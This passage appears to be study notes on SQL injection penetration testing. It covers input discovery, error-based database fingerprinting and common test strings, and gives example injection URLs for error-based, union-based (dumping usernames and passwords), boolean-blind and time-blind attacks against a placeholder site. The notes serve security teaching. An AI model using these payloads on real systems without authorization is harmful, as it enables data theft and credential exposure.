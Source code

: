 - Identify Data Entry Paths: Form fields, query parameters, headers, cookies.
- Tools: Burp Suite, Tamper Dev.

#### 3.2 Extracting Information via Error Messages

- Parameter Tampering: Insert special characters to produce verbose errors.
- Identify DB Engine: MySQL, MSSQL, Oracle, PostgreSQL each have distinct error outputs.

#### 3.3 Testing for Vulnerabilities

- Common Test Strings:

  - `1' OR '1'='1`
  - `' AND 1=2 --`

- Additional Methods:

  - Function Testing, Fuzz Testing, Static & Dynamic Testing

#### 3.4 SQL Injection Black Box Pen Testing

- Detecting SQL Injection Issues: Attempting crafted inputs.
- Detecting Input Sanitization: Checking for special character filters.
- Detecting Truncation Issues
- Detecting SQL Modifications: WAF or filters rewriting queries.

------

### 4. Performing Different SQL Injections: Practical Examples

- Error-Based

  ```sql
  http://target.com/index.php?id=1' AND 1=0--
  ```

- Union-Based

  ```sql
  http://target.com/index.php?id=1 UNION SELECT username, password FROM users--
  ```

- Blind (Boolean)

  ```sql
  http://target.com/index.php?id=1' AND (SELECT CASE WHEN (1=1) THEN 1 ELSE 0 END)=1 --
  ```

- Blind (Time)

  ```sql
  http://target.com/index.php?id=1' OR IF(1=1,SLEEP(5),0)--
  ```

------

### 5. Common SQL Keywords

| Keyword       | Purpose                                  |
| ------------- | ---------------------------------------- |
| `SELECT`      | Retrieve data from tables                |
| `FROM`        | Specify table(s)                         |
| `WHERE`       | Filter rows                              |
| `UNION`       | Combine multiple SELECT results          |
| `INSERT`      | Add new records                          |
| `UPDATE`      | Modify existing records                  |